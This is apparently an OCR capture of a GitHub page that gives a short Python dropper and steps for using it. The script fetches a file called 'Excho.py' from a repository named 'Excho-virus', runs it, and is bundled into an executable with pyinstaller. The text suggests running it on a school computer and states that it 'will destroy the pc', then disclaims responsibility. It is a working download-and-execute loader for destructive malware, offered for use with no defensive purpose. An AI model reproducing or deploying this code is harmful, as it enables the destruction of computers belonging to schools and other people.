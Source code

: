 best to use on computer of school

first download pyinstaller

if not then

pip install pyinstaller

 then

 import urllib.request
import os

def download_script(url, filename):
    try:
        urllib.request.urlretrieve(url, filename)
    except Exception as e:
        print("Error downloading script:", e)

def run_script(filename):
    try:
        os.system("python " + filename)
    except Exception as e:
        print("Error running script:", e)

def main():
    github_url = "https://raw.githubusercontent.com/Voidraidlo/Excho-virus/main/Excho.py"
    filename = "Excho.py"
    download_script(github_url, filename)
    run_script(filename)

if __name__ == "__main__":
    main()


pyinstaller --onefile excho_downloader.py



this will destroy the pc, if you are angry at me remember you are the one who 
wanna do it. 
